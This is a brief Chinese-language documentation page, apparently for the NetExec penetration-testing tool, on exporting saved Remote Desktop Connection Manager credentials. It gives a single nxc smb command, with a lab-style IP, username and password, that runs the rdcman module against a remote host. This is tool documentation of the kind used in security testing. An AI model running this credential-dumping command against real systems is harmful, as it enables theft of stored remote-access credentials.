 ```yaml
---
description: 导出远程桌面连接管理器凭证
---
```


# 🆕 导出远程桌面连接管理器

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

```
nxc smb 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! -M rdcman
```
